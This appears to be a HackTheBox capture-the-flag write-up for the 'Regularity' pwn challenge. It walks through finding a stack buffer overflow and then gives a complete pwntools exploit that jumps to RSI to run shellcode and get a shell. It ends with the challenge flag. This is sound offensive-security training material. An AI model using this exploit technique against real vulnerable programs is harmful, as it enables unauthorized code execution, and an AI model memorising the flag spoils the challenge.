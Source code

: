 # Regularity
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d20d1e54-c9f0-4e60-8820-70dea1f1090c)


## Lessons Learned:
1. Stack-Based Exploitation.
2. Get shell using ret2reg concept --> jumping to rsi.

## DESCRIPTION:

<p align="justify">Nothing much changes from day to day. Famine, conflict, hatred - it's all part and parcel of the lives we live now. We've grown used to the animosity that we experience every day, and that's why it's so nice to have a useful program that asks how I'm doing. It's not the most talkative, though, but it's the highest level of tech most of us will ever see...</p>

## STEPS:
1. In this challenge, we're given a 64 bit binary, statically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/9b195474-0e37-4725-bf60-798139df026b)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bf714acb-c3d3-48f2-a180-944cd07db6a3)


2. Interesting, no protections are applied to the binary.
3. Upon reviewing the decompiled code, we found an initialize global variable named message1. Since it's initialized, the variable shall stored at the .DATA section.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b297ed28-a23f-4f83-8ec9-755a2f5258a9)


> .DATA SECTION.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d9b319f-d05c-474d-a018-4f45f0af3e2d)


4. It's unclear to determine the size of **nbytes** and **__buf**. So let's just send 1024 cyclic pattern and check whether GDB alarm SIGSEGV or not.

> RESULTING TO SEGFAULT (SIGSEGV).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c76bc159-2c0d-4e6b-8990-c3dc229ff19c)


> RIP Offset -> 256

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d60021ed-fedf-490f-bb58-beaa8c376586)


5. Great! There is a Buffer Overflow then. Since there is no direct input execution and no stack leak. Hence, the easiest way to drop a shell is by using register that used to store the input buffer.
6. Commonly **RAX** is used to store the input buffer.
7. BUT, reviewing the register context, seems RSI is used to store our buffer.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c20349b2-5e29-4349-a0c3-527b5becc6ed)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bffb1ec5-0149-4a75-a4d0-a607eb298d19)


8. Nice! Seems RSI should be our target now. Again, remembering PIE is not enabled hence we can grab the `jmp rsi;` gadget without worries about the piebase.

> USING ROPPER - CHECKING JMP RSI; GADGET.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ad3e4531-fb43-4600-8f0f-2f9ab5ef37c6)


10. Here's the crafted exploit script.

> SCRIPT

```py
from pwn import *

exe = './regularity'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'INFO'

sh = process(exe)
rop = ROP(elf)

jmp_rsi = 0x0000000000401041
success(f'JMP RSI; GADGET --> {hex(jmp_rsi)}')

p = flat([
    asm(shellcraft.sh()).ljust(256, asm('nop')),
    jmp_rsi
])
sh.sendline(p)
sh.interactive()
```

> REMOTE TEST

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/53c303a4-f1b3-44d4-808c-dc0661f78095)


11. We've pwned it!

## FLAG

```
HTB{jMp_rSi_jUmP_aLl_tH3_w4y!}
```
